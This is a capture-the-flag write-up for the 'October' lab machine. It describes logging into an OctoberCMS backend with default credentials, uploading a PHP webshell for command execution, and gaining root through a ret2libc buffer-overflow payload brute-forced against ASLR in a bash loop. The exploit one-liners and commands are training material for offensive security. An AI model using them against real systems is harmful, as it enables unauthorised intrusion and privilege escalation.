









# October

## Gaining Access

Nmap scan:



We don't need to add anything into the hosts file.

### OctoberCMS

The website was running OctoberCMS and appears to have a default look:


Registering an account and trying to do stuff with it was useless and had no functionalities. So instead, we can abuse the fact that OctoberCMS is an open-source project. A quick Google search reveals that the backend of this is at `/backend`:




We can use the default credentials of `admin:admin`.



OctoberCMS has quite a few exploits:



We can use one of them to upload a `cmd.php5` file to execute on the server, as `php5` is not blocked on the server:



We can confirm we have RCE via `curl`.



Getting a reverse shell is then trivial.

## Privilege Escalation

### Ret2Libc

I ran a LinPEAS scan on the machine, and found this weird SUID binary called `overflw`:



I opened it up in Ghidra to view what it does:



It appears we have a classic BOF expliot to do here. The `strcpy` function is vulnerable, and the buffer is pretty short. Doing a `checksec` reveals that NX is enabled but PIE is disabled:

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

In this case, we can go for a Ret2Libc attack. First, we find the buffer size:



Fixed at 112 it appears (same as length of `local_74`). Now, we can use `ldd` to find the address where `libc` is loaded on the machine:



Then we can simply execute the following commands to get the addresses we need

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

Afterwards, we can use a python one-liner to print the contents of the payload:

```python
python2 -c 'print"\x90" * 112 + "\x10\x83\x62\xb7" + "\x60\xb2\x61\xb7" + "\xac\xab\x74\xb7"'
```

When run however, it didn't work on the machine. Turns out, the machine itself already had ASLR enabled, and this can be verified in `/proc/sys/kernel/randomize_va_space`. Also, when checking the addresses, it seems to randomly shift each time.

In this case, we can check the **range of addresses which ASLR spans**. In this case, the range of addreses looks rather small since `libc` is loaded at roughly the same location:

```
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc  
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b1000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb763b000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7606000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7591000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7624000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7558000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7567000)
```

So, we can set up a `bash` script to keep looping until we get a successful exploit.

```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```



Rooted!
